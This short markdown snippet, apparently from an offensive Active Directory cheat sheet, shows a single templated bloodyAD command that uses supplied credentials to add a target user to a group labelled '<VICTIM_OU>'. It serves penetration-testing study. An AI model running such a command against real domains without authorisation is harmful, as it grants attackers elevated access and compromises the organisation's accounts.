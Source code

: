 # Set GroupMember

## Add groupMember
```
bloodyAD --host <DC_FQDN> -d '<DOMAIN>' --dc-ip <DC_IP> -u <USERNAME> -p '<PASSWORD>' add groupMember "<VICTIM_OU>" '<TARGET_USERNAME>'
```
